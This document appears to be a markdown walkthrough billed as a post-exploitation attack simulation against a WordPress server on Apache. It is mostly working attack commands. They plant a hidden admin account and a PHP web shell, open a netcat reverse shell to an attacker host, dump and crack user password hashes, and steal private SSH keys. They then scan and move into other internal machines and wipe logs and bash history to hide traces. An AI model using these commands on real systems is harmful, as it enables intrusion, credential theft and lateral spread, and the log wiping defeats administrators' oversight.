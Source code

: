 ## **🔥 Post-Exploitation Attack Simulation: Taking Over a Compromised Web Server**
---

### **🎯 Scenario Recap**
We have successfully exploited vulnerabilities on **example.com (192.168.1.10)** using:
- **Apache Path Traversal (CVE-2017-15715)** to access `wp-config.php` 📄
- **WordPress Admin Panel Access** via weak password brute-force 🔑
- **Privilege Escalation (CVE-2019-0211)** to obtain **root access** 🔥

Now, let’s simulate **real-world post-exploitation tactics** used by attackers after gaining access.

---

## **🔍 Phase 1: Establishing Persistent Access**
💡 **Objective:** Maintain control over the compromised server **even if rebooted**.

### **🛠 Step 1.1: Creating a New Admin User**
📌 Since we have **WordPress admin access**, we can create a **new admin account**:
```bash
curl -X POST "http://example.com/wp-admin/user-new.php" \
--data "user_login=hacker&user_pass=SuperSecret123!&role=administrator"
```
📌 **Outcome:** We now have a hidden **admin account** in WordPress.

---

### **🛠 Step 1.2: Deploying a Web Shell (Backdoor)**
📌 **Upload a PHP web shell** (e.g., `wpshell.php`) for remote control:
```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```
🚀 **Upload this shell via the WordPress theme editor** or by replacing `index.php` in Apache.

📌 **Access it via:**
```bash
curl http://example.com/wpshell.php?cmd=whoami
```
✅ **Expected Output:** `www-data` (Apache process owner)

---

### **🛠 Step 1.3: Setting Up Reverse Shell**
💡 **A reverse shell allows us to execute commands as if we're inside the system.**

📌 **Step 1.3.1: Start a Netcat listener on our machine**
```bash
nc -lvnp 4444
```
📌 **Step 1.3.2: Run a PHP reverse shell from the web shell**
```bash
curl "http://example.com/wpshell.php?cmd=php -r 'system(\"nc -e /bin/bash attacker_ip 4444\");'"
```
✅ **Outcome:** We get a **remote interactive shell** on the compromised machine.

---

## **🔍 Phase 2: Extracting Sensitive Data**
💡 **Objective:** Exfiltrate critical credentials & user data.

### **🛠 Step 2.1: Dumping MySQL Database**
📌 **Since we have database credentials from `wp-config.php`**, we can dump user info:
```bash
mysql -u root -p"SuperSecurePassword" -e "SELECT user_login, user_pass FROM wp_users;" wordpress_db
```
✅ **Outcome:** We extract **hashed WordPress passwords**.

📌 **Step 2.1.1: Crack WordPress Passwords**
```bash
hashcat -m 400 wp_hashes.txt rockyou.txt --force
```
✅ **Outcome:** We **recover plaintext passwords** of real users.

---

### **🛠 Step 2.2: Searching for SSH Keys**
📌 If an admin uses **SSH key-based authentication**, we can steal keys:
```bash
find /home -name "id_rsa" -exec cat {} \;
```
✅ **Outcome:** We steal **private SSH keys** to access other servers.

---

## **🔍 Phase 3: Lateral Movement (Spreading the Attack)**
💡 **Objective:** Expand access to other systems in the network.

### **🛠 Step 3.1: Check Internal Network**
📌 **Find all active machines inside the network**:
```bash
nmap -sn 192.168.1.0/24
```
✅ **Outcome:** Identifies other internal systems we can attack.

📌 **Step 3.1.1: If SSH is enabled, try stolen credentials**
```bash
ssh -i id_rsa admin@192.168.1.20
```
✅ **Outcome:** If successful, we access a **new machine** inside the network.

---

## **🔍 Phase 4: Covering Tracks**
💡 **Objective:** Hide our presence from logs & alerts.

### **🛠 Step 4.1: Clearing Logs**
📌 **Delete Apache access logs:**
```bash
echo "" > /var/log/apache2/access.log
```
📌 **Delete SSH login logs:**
```bash
echo "" > ~/.bash_history
```
✅ **Outcome:** Erases all signs of our activity.

---

## **💀 Potential Real-World Impact**
| **Attack** | **Impact** |
|------------|-----------|
| **Persistent Backdoor** | Allows continuous control of the server |
| **Database Dump** | Steals user credentials and sensitive data |
| **Lateral Movement** | Expands attack to other systems |
| **Log Cleansing** | Hides traces from administrators |


